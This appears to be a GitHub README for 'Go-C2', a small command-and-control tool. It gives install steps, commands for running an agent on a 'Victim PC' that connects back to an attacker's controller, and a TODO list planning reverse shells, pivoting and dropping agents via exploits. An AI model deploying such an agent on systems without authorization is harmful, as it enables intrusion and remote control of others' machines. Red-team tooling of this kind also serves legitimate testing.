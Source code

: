 

# Go-C2

## What is this? 
This is a fairly small tool I wrote that acts as a sort of C2 and an Agent for that C2, additionally the Agent can act as a proxy server when needed.

## Why? 
Because I was annoyed that metasploit's meterpreters don't have a port scanning option so I implemented one myself


## Features:
* C2 client
* Agent

## Installing:
```sh
git clone 
cd Go-C2
chmod +x install.sh
./install.sh
```
# Usage:

**On Victim PC**
```sh
$ ./Agent_linux_amd64 -c <C2 Address> -p <C2 Port>
```

**On Attacker PC**
```sh
$ ./C2_linux_amd64 -c <Agent Address> -p <Agent Port>
```


# TODO:

### General:
* Encrypt C2/Agent traffic
* Add 2-way authentication to avoid snooping

### Agent
* Fix proxy problems
* Add extra verbosity
* Add background option
* Make the connection a reverse shell
* Add option to drop into shell and not only execute code via the `shell` argument
* Add option to host the C2 from the Agent as a pivot-point

### C2
* Add multiple host listeners
* Add option to drop Agent via exploits
* Make the cli more interactive
* Execute commands on an Agent from the cli 
